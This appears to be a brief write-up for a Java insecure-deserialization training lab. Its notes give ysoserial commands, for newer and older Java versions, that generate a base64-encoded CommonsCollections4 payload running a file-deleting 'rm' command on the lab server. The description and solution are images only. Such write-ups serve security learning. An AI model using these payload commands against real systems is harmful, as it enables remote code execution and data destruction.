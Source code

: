 ## Lab Description :

![image](https://github.com/user-attachments/assets/87d7cf4c-aeae-4efe-9a8d-9b2ce55f0ec9)


## Notes :

While using yoserial ,

- If Java version is 16 and above:

```java
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
- If Java version is 15 and below:

```java
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

## Solution :



![image](https://github.com/user-attachments/assets/d4093a43-5f7c-4e57-be5b-d9e7a66d5671)
